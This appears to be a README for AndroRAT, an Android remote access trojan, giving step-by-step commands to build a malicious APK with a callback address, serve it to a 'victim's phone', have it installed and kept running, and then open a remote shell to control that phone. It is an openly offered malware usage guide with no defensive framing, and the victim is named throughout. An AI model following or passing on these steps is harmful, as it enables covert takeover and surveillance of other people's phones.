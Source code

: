 # AndroRAT
-----------------------------------------------------------------------
First of all extract all files in your computer. 
All the files will be extracted as one single folder.
-----------------------------------------------------------------------
These following commands are only applicable in python version >=3.9
-----------------------------------------------------------------------
1. Open terminal in the same directory and run the following command.
   "**py androRAT.py --build -i 192.168.1.10 -p 4444 -o name_of_app.apk**". 
   (Here, replace the ip "192.168.1.10" with your computer's local ip, also replaces
   the "name_of_app.apk" with your desired name of the app).
    
2. Now run the command "**py -m http.server 8000**".
    (It will start a server on your computer at port 8000).

3. Open browser of victim's phone and go to the address "**192.168.110:8000**".
    (Again  replace the ip "192.168.1.10" with your computer **local ip**).

4. Now download the apk file that you had created with your desired name and install. 
    (Keep running the app in the background.)

5. Now open another terminal in the same directory and run the following command.
    "**py androRAT.py --shell -i 192.168.1.10 -p 4444**".
     (Don't forget to replace the ip)

6. Done! now you will be connected with the victim's phone.
   Simply run command "help" to explore the operations that you can perform in victim's phone.
-----------------------------------------------------------------------
*Note*
-----------------------------------------------------------------------
1.  Do remember, in above commands use your own local ip, you just have to replace it with mine.
2. You can use any port that you want, but better to use **4444**.
3. Also, check the requirements.txt file to install some python modules.
   (To install type: **pip install _name of the module_**)
-----------------------------------------------------------------------
If you have any problem then contact me:
Email ID: **codingdrift18@gmail.com**
